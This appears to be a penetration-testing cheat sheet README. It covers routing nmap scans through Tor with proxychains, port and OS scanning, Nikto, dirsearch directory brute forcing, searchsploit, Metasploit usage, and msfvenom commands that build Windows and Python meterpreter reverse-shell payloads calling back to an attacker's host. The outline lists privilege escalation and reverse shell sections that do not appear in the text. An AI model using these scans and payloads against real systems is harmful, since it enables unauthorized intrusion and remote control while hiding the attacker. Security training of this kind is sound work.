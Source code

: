 # HackingCheatSheet
### outline
* Hacking Tools
	* [Proxychains](#Proxychains)
	* [Nmap](#Nmap)
	* [Nicto](#Nicto)
	* [Dirsearch](#Dirsearch)
	* [Exploitdb](#Exploitdb)	
	* [Metasploit](#Metasploit)
* CTF Pwn Cheatsheet
* Privilege Escalation
* Reverse Shell
## Hacking Tools
### Proxychains 
Proxychaons is a tool that could let us anonymous on the internet.
* Install On Ubuntu
```
1. git clone https://github.com/rofl0r/proxychains
2. cd proxychains
3. ./configure
4. make & make install  
```
* Install On MacOS
```
1. brew install proxychains-ng 
2. close SIP
   Reboot computer and prsee "Command + R" into recovery mode.
   Press Utilities -> Terminal (At upper left).
   Enter "csrutil disable".
   Reboot.
```
* Install Tor
```
Linux : sudo apt-get install tor
MacOS : download from "https://www.torproject.org/download/"
```
* Setting Config File  
File Path :  
 	Linux : /etc/proxychains.conf  
	MacOS : /usr/local/etc/proxychains.conf
```
# proxychains.conf  VER 4.x
#
#        HTTP, SOCKS4a, SOCKS5 tunneling proxifier with DNS.


# The option below identifies how the ProxyList is treated.
# only one option should be uncommented at time,
# otherwise the last appearing option will be accepted
#
dynamic_chain
#
# Dynamic - Each connection will be done via chained proxies
# all proxies chained in the order as they appear in the list
# at least one proxy must be online to play in chain
# (dead proxies are skipped)
# otherwise EINTR is returned to the app
#
#strict_chain
#
# Strict - Each connection will be done via chained proxies
# all proxies chained in the order as they appear in the list
# all proxies must be online to play in chain
# otherwise EINTR is returned to the app
#
#round_robin_chain
#
# Round Robin - Each connection will be done via chained proxies
# of chain_len length
# all proxies chained in the order as they appear in the list
# at least one proxy must be online to play in chain
# (dead proxies are skipped).
# the start of the current proxy chain is the proxy after the last
# proxy in the previously invoked proxy chain.
# if the end of the proxy chain is reached while looking for proxies
# start at the beginning again.
# otherwise EINTR is returned to the app
# These semantics are not guaranteed in a multithreaded environment.
#
#random_chain
#
# Random - Each connection will be done via random proxy
# (or proxy chain, see  chain_len) from the list.
# this option is good to test your IDS :)

# Make sense only if random_chain or round_robin_chain
#chain_len = 2

# Quiet mode (no output from library)
#quiet_mode

# Proxy DNS requests - no leak for DNS data
proxy_dns 

# set the class A subnet number to use for the internal remote DNS mapping
# we use the reserved 224.x.x.x range by default,
# if the proxified app does a DNS request, we will return an IP from that range.
# on further accesses to this ip we will send the saved DNS name to the proxy.
# in case some control-freak app checks the returned ip, and denies to 
# connect, you can use another subnet, e.g. 10.x.x.x or 127.x.x.x.
# of course you should make sure that the proxified app does not need
# *real* access to this subnet. 
# i.e. dont use the same subnet then in the localnet section
#remote_dns_subnet 127 
#remote_dns_subnet 10
remote_dns_subnet 224

# Some timeouts in milliseconds
tcp_read_time_out 15000
tcp_connect_time_out 80000

### Examples for localnet exclusion
## localnet ranges will *not* use a proxy to connect.
## Exclude connections to 192.168.1.0/24 with port 80
# localnet 192.168.1.0:80/255.255.255.0

## Exclude connections to 192.168.100.0/24
# localnet 192.168.100.0/255.255.255.0

## Exclude connections to ANYwhere with port 80
# localnet 0.0.0.0:80/0.0.0.0

## RFC5735 Loopback address range
## if you enable this, you have to make sure remote_dns_subnet is not 127
## you'll need to enable it if you want to use an application that 
## connects to localhost.
#localnet 127.0.0.0/255.0.0.0

## RFC1918 Private Address Ranges
# localnet 10.0.0.0/255.0.0.0
# localnet 172.16.0.0/255.240.0.0
# localnet 192.168.0.0/255.255.0.0

# ProxyList format
#       type  ip  port [user pass]
#       (values separated by 'tab' or 'blank')
#
#       only numeric ipv4 addresses are valid
#
#
#        Examples:
#
#            	socks5	192.168.67.78	1080	lamer	secret
#		http	192.168.89.3	8080	justu	hidden
#	 	socks4	192.168.1.49	1080
#	        http	192.168.39.93	8080	
#		
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 	127.0.0.1 9150
```
* Usage
```
proxychains4 nmap www.example.com # Anonymous scanning the web server with nmap 
(When using MacOS remembering to open tor browser before using proxychains)
```
### Nmap
Scanning specific ports
```
nmap -p 80-200
```
Scanning opened port and service version
```
nmap "IP" --top-ports 1000 --open -sV
```
Scanning opened port and OS information 
```
nmap -O "IP"
```
Detect all powered-on hosts
```
nmap -sP "IP"
```
### Nicto
This is a tool for scanning the web service version and the existing vulnerabilities.
* Usage 
```
nicto -h "Target IP" -p "Target Port"
```
### Dirsearch
It is a tool that could brute force directories and files in websites.
* Install & Usage
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u "Web URL" -e *
```
### Exploitdb
This is an exploit database
* Usage
```
searchsploit linux 4 priv  # Searching existing exploit about "linux kernel 4.x privilege escalation"
```
### Metasploit
This is just an useful penetration test tool.
* Usage
```
search Apache 	# Searching the vulnerability about "Apache"
use XXXXXX    	# Using the exp
show options  	# Show the exp options
set XXX 		# Setting the options
exploit			# run the exp
```
* Meterpreter
This is a subservice in metasploit. It could help us create the malicious scripts.
```
msfvenom -p windows/meterpreter/reverse_tcp lhost="Your IP" lport="Your Port" -f reverseshell.exe
(Create a windows execute file for reversing shell)

msfvenom -p python/meterpreter/reverse_tcp LHOST="Your IP" LPORT="Your Port" -f pyterpreter.py
(Create a pyhton reverse shell script)
```



